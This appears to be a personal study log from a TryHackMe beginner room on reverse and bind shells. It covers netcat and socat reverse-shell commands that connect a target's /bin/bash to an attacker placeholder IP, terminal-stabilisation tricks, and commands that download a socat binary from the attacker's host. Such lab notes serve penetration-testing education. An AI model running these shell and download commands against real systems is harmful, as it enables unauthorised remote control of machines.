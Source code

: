 ```yaml
---
title: 'TryHackMe: Complete Beginner'
date: 2021-10-27 12:00:00.000000000 Z
layout: post-external
original_link: https://cardboard-iguana.com/log/2021-10-27-tryhackme-complete-beginner.html
author: 100007
---
```


# What the Shell?

## What Is a Shell?

Terminology:

- REVERSE SHELLS are shells where the target is forced to connect back to the attacker.
- BIND SHELLS are shells bound to a port on the target that the attacker can connect to later.

## Tools

Typical tools for creating reverse shells or connecting to bind shells:

- `netcat` (`nc`) is present on just about every UNIX-like system. It can do just about everything, but can be a little bit unstable when constructing reverse shells.
- `socat` is a more versatile, more stable netcat. Unfortunately, it is rarely installed out-of-the-box.
- `auxilary/multi/handler` is the netcat/socat equivalent in Metasploit. It is the only way to interact with the Meterpreter attack shell, and has built-in support for staged payloads.
- `msfvenom` is a stand-alone version of multi/handler. It can also generate reverse shell payloads.

Useful sites:

- [Payload All the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- [Reverse Shell Cheatsheet](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

Also check out /usr/share/webshells on Kali Linux.

- [Using Metasploit](https://cardboard-iguana.com/notes/metasploit.html)

## Types of Shells

Example reverse shell:

- Attacker: `nc -lvnp $LISTENER_PORT`
- Target: `nc $ATTACKER_IP $LISTENER_PORT -e /bin/bash`

Example bind shell:

- Attacker: `nc $TARGET_IP $LISTENER_PORT`
- Target: `nc -lvnp $LISTENER_PORT -e /bin/bash`

These are almost, but not quite, mirror images of each other.

Most initial reverse shells (in particular web shells) are non-interactive.

## Netcat

While binding to well-known ports requires the use of sudo, it’s also less likely to get flagged/blocked by intermediate firewalls.

## Netcat Shell Stabilization

One thing that causes a reverse shell to be non-interactive is when its running in a shell itself. It’s generally possible to stabilize these and get a fully interactive shell on UNIX-like systems:

- Start an instance of bash connected to an actual PTY: `env TERM=xterm python -c 'import pty; pty.spawn("/bin/bash")'`
- Suspend the reverse shell.
- Use `stty raw -echo; fg` to switch to raw keycode transmission (so that things like arrow keys get pushed to our remote shell), turn off terminal echo (to prevent seeing commands twice), and foreground the reverse shell.

Note that the `stty` command can be canceled using `reset` (after closing the reverse shell). Since echo is turned off, typing this won’t be visible. Trust the force!

You can _mostly_ bypass the need for the `stty` command by using `rlwrap`, which sets all of this up for you (though it doesn’t redirect control sequences, so Ctrl+C will still kill the connection).

It’s also possible to upgrade to a socat-powered shell, assuming that you have a statically-compiled version of socat. Typically, the way that you’d transfer this binary is by first spinning up a simply webserver in the directory with your socat binary on the attack machine, and then downloading that binary to the vicitim.

- UNIX LIKE: `wget $ATTACKER_IP/socat -O /tmp/socat`
- WINDOWS (POWERSHELL): `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\Windows	emp\socat.exe`

NOTE that in _none_ of these cases will the reverse shell pick up on your terminal size, so you’ll need to manually specify it using `stty rows` and `stty cols`.

- [Quick-n-Dirty Python Web Server](https://cardboard-iguana.com/notes/quick-n-dirty-python-web-server.html)

## Socat

Socat: Just an anything-to-anything connector!

```
# Reverse shell (attacker)
#
nc -lnp $LISTENER_PORT
socat TCP-LISTEN:$LISTENER_PORT -

# Reverse shell (target)
#
nc $ATTACKER_IP $LISTENER_PORT -e /bin/bash
socat TCP:$ATTACKER_IP:$LISTENER_PORT EXEC:"/bin/bash -li"

# Bind shell (attacker)
#
nc $TARGET_IP $LISTENER_PORT
socat TCP:$TARGET_IP:$LISTENER_PORT

# Bind shell (target)
#
nc -lnp $LISTENER_PORT -e /bin/bash
socat TCP-LISTEN:$LISTENER_PORT EXEC:"/bin/bash -li"
```

This gets us an interactive login shell right out the gate, though we’re still vulnerable to Ctrl+C. Note that when binding to PowerShell, use `powershell.exe,pipes` in order to force PowerShell to use UNIX-style STDIN/STDOUT.

We can use socat to create an auto-stabilized reverse shell on UNIX-like systems (though we will still need to use `stty` to set rows/columns).

```
# Attacker: Connect $LISTENER_PORT to the current TTY,
# send raw keycodes, and turn off terminal echo.
# Basically the `stty raw -echo`.
#
socat TCP-LISTEN:$LISTENER_PORT FILE:`tty`,raw,echo=0

# Target: Connect the listener on the attacker to an
# interactive login bash shell.
#
# pty - allocate a PTTY
# stderr - redirect STDERR to the attacker
# sigint - pass signals (Ctrl+C) through
# setsid - use a new session
# sane - use a variety of tweaks to "normalize" the
# terminal's environment
#
socat TCP:$ATTACKER_IP:$LISTENER_PORT \
	EXEC:"/bin/bash -li",pty,stderr,sigint,setsid,sane
```

NOTE that it’s perfectly acceptable to kick off a socat process from inside a netcat process!

